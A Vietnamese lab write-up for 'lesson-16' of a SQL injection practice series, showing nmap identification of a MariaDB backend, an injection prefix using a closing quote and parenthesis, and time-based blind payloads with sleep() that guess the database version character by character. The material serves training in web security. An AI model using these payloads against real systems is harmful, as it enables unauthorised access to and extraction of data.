





# Những việc làm được với lesson-16
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-16



Cũng tưng tự như bài 15 thì ta sẽ đi tìm cấu trúc của nó. Và ta sẽ thấy rằng bài này cũng phải dùng time-base để có thể  tìm kiếm được thông tin của nó. 

1. Cấu trúc của bài 16 là 

```
") or 1=1 -- 
```



2. Tìm version của bài 16 

Ta cũng đã biết được DB là `MariaDB` bằng cách sử dụng nmap rồi. Tiếp theo chúng ta sẽ đi tìm version của nó như bài 15
```
") or if(substr((select @@version),1,1)='1',sleep(5),false) -- 
```



```
") or if(substr((select @@version),1,1)='5',sleep(5),false) -- 
```




```
") or if(substr((select @@version),1,3)='5.5',sleep(2),false) -- 
```

 

